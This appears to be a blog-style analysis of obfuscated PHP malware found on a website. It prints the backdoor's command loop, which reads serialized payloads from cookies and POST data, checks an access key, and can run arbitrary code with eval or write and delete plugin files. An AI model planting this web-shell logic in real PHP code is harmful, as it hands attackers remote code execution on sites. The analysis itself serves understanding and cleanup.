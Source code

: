 The last function (which is called at the end of the program) appears to run values from an array. This is likely to be the mechanism for how the commands are executed.

The last part of the code which I haven't decoded so far looks quite distinctive.

```php
foreach (array_merge($_COOKIE, $_POST) as $cedxbvcy => $vpfasf)
{
    $vpfasf = @unserialize(umzklia(ytkpmfs($vpfasf), $cedxbvcy));

    if (isset($vpfasf['ak']) && $hxgqukcsofcc==$vpfasf['ak'])
    {
        if ($vpfasf['a'] == 'i')
        {
            $fxffhl = Array(
                'pv' => @phpversion(),
                'sv' => '2.0-1',
                'ak' => $vpfasf['ak'],
            );
            echo @serialize($fxffhl);
            exit;
        }
        elseif ($vpfasf['a'] == 'e')
        {
            eval($vpfasf['d']);
        }
        elseif ($vpfasf['a'] == 'plugin')
        {
            if($vpfasf['sa'] == 'add')
            {
                bushzx($vpfasf['p'], $vpfasf['d']);
            }
            elseif($vpfasf['sa'] == 'rem')
            {
                uzzylcyq($vpfasf['p']);
            }
        }
        echo $vpfasf['ak'];
        exit();
    }
}

```

The main part that looked distinctive was the array:

```php
$fxffhl = Array(
    'pv' => @phpversion(),
    'sv' => '2.0-1',
    'ak' => $vpfasf['ak'],
);
```
The main reason this looked distinctive was that it isn't encoded at all. The variable name is, but the rest of it is unlikely to be. The indexes of the arrays can't be as that would change the behaviour of the program. A bit of googling found the a [Stack Overflow link](https://stackoverflow.com/questions/43211850/my-site-is-infected-with-obfuscated-php-malware-what-is-it-doing-how-do-i-ge)
